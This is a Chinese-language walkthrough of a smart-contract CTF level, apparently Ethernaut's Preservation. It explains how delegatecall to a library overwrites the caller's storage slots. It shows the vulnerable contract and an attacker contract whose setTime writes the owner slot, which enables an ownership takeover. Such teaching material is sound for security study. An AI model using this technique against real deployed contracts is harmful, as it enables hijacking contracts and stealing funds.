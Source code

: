## 创建实例并分析
根据先前的步骤，创建合约实例，其合约地址为`0x2f3aC08a3761D8d97A201A36f7f0506CEAaF1046`。本关卡的目的是获取目标合约的所有权。那我们还是要看看，目标合约的薄弱点在哪里，我们**hack**的入口又在哪里？

我们对目标展开详细分析
```
  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
```
此处目标存储了`timeZone1Library`、`timeZone2Library`、`owner`及`storedTime`变量，而前三者都是在创建时指定的。

既然要获取目标合约的所有权，首先我们查找修改`owner`的语句，但是翻遍代码都没有找到，或许我们得看看有哪些**危险函数**？
```
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
```
没错，就是这里，delegatecall！
其实，在`Delegation`一关中，我们专门提到过call函数族中的区别：

- call: 最常用的调用方式，调用后内置变量 msg 的值会修改为调用者B，执行环境为被调用者的运行环境C。
- delegatecall:调用后内置变量 msg 的值A不会修改为调用者B，但执行环境为调用者的运行环境B
- callcode:调用后内置变量 msg 的值A会修改为调用者B，但执行环境为调用者的运行环境B

此时，使用delegate call时，我们只是相当于调用了函数，而实际执行环境还是本身的运行环境。如果要更为底层的来说，又该怎么理解呢？这个环境，尤其是涉及到**storage**变量的存储时，是根据插槽来使用的，而不是变量的名字。换句话来说，我们如果通过delegate call修改storage变量，其实是修改当前环境下对应的插槽！

理解了这一点，我们再来看当前合约，真是怎么看怎么不对劲：当调用对应合约`LibraryContract`的`setTime`函数后，如所见即所得，`storedTime`变量被修改，这其实会修改运行环境下的`slot 0`，换而言之，其实`timeZone1Library`所处的插槽已经被修改了。这个合约本身就是有问题的！

也就是因为它有问题，我们才要处理它！我们首先想将`timeZone1Library`的地址修改为我们的攻击合约，在想办法通过delegate call实现后续的攻击。

## 攻击合约编写
我们同样在remix里编写攻击合约。如下：

```
pragma solidity ^0.6.0;


contract attacker {

    address public tmpAddr1;
    address public tmpAddr2;
    address public owner; 

    constructor() public {

    }

    function setTime(uint _time) public {
        owner = address(_time);
    }

}
```
乍一看，这和原来合约的有什么区别么？其实有的，就是我们在修改时特意使得修改的是第三个插槽，也就是`slot 2`。变量`tmpAddr1`和`tmpAddr2`其实只是一个插槽的占位符，并无特殊含义。
